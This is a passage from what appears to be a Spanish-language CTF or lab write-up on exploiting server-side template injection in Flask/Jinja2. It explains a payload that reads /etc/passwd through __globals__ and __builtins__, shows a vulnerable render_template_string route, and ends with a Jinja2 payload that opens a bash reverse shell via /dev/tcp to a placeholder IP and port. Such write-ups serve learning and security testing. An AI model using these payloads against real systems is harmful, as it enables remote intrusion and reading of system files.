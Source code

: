 En Flask, `get_flashed_messages` es una función usada para obtener mensajes almacenados en el sistema de "flash messages". En este contexto, el payload utiliza su atributo `__globals__`.

**`__globals__`**

En Python, `__globals__` es un atributo que referencia el espacio de nombres global de la función. Esto incluye variables, funciones y objetos globales del entorno donde fue definida.

**`__builtins__`**

* Dentro del espacio de nombres global, `__builtins__` da acceso a las funciones y clases nativas de Python, como `open`, `exec`, y `eval`.
* Al acceder a `__builtins__.open`, obtienes acceso directo a la función `open()` de Python, que permite leer o escribir archivos.

**`open("/etc/passwd").read()`**

* El archivo `/etc/passwd` contiene información sobre los usuarios del sistema en sistemas basados en Unix/Linux.
* Este comando intenta abrir y leer el contenido de `/etc/passwd`.

***

#### **3. ¿Cuándo funciona este payload?**

Este payload funcionará si se cumplen las siguientes condiciones:

1. **Vulnerabilidad SSTI**:
   * La aplicación utiliza un motor de plantillas como Jinja2 y permite al usuario inyectar expresiones dinámicas.
   *   Ejemplo: si un parámetro de usuario se pasa directamente a una plantilla sin ser sanitizado:

       python

       CopiarEditar

       `@app.route("/vulnerable") def vulnerable(): user_input = request.args.get("input") return render_template_string(user_input)`
2. **Acceso a `__globals__`:**
   * En Jinja2, al procesar plantillas, las funciones y variables globales del entorno están disponibles.
   * Esto incluye acceso a `__globals__` y `__builtins__`.
3. **Permisos adecuados:**
   * El proceso de la aplicación web debe tener permisos para leer el archivo `/etc/passwd`.

Vemos que si funciona por lo que haremos lo siguiente:

Vamos crearnos una `reverse shell` de la siguiente forma:

```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"').read() }}
```

<figure><img src="../../.gitbook/assets/image (180) (1).png" alt=""><figcaption></figcaption></figure>
